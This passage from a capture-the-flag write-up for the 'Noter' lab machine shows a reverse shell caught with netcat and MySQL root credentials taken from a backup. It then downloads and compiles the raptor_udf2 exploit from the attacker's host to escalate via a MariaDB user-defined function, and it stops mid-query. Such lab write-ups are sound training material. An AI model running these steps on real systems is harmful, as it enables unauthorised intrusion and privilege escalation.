```bash
➜  noter python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.160 - - [23/May/2022 10:39:35] "GET /rev.md HTTP/1.1" 200 -

➜  noter nc -lvnp 4488            
listening on [any] 4488 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.160] 50188
/bin/sh: 0: can't access tty; job control turned off
$ id && hostname
uid=1001(svc) gid=1001(svc) groups=1001(svc)
noter
$ cat user.txt	
39482bdad8ae80f8eb950cab59f5ffc2
```

---------------

# ROOT
### Step 1
My first finding was the backup script `backup.sh`, and within we see the astirix being used. Here I spent some time looking if it was possible to exploit using *shell globbing* but to no avail. 
```bash
svc@noter:/$ ls -al /opt
total 12
drwxr-xr-x  2 root root 4096 May  2 23:05 .
drwxr-xr-x 19 root root 4096 May  2 23:05 ..
-rwxr--r--  1 root root  137 Dec 30 09:41 backup.sh
svc@noter:/$ cd opt
svc@noter:/opt$ cat backup.sh
#!/bin/bash
zip -r `echo /home/svc/ftp/admin/app_backup_$(date +%s).zip` /home/svc/app/web/* -x /home/svc/app/web/misc/node_modules/**\*
```

Instead I moved on to the MySQL database, to which we found root credentials in one of the backup files. (`root:Nildogg36`)

Download the privesc https://www.exploit-db.com/exploits/1518 and write it to file, `raptor_udf2.c`. We meet all the criterias as we can login to MySQL as root.
Create a user defined function for code execution and grab sensitive files and/or setup a reverse shell.

```bash
svc@noter:/dev/shm$ wget http://10.10.14.26/raptor_udf2.c
svc@noter:/dev/shm$ gcc -g -c raptor_udf2.c
svc@noter:/dev/shm$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:/dev/shm$ ls -al
drwxrwxrwt  3 root root   120 May 23 11:39 .
drwxr-xr-x 20 root root  4040 May 23 10:46 ..
drwx------  4 root root    80 May 23 10:46 multipath
-rw-r--r--  1 svc  svc   4920 May 23 11:39 raptor_udf2.c
-rw-r--r--  1 svc  svc   7432 May 23 11:39 raptor_udf2.o
-rwxr-xr-x  1 svc  svc  19360 May 23 11:39 raptor_udf2.so

svc@noter:~/app/web$ mysql --user=root -p --host localhost
Enter password: Nildogg36


MariaDB [(none)]> use mysql;
MariaDB [mysql]> show variables like '%plugin%';
show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
```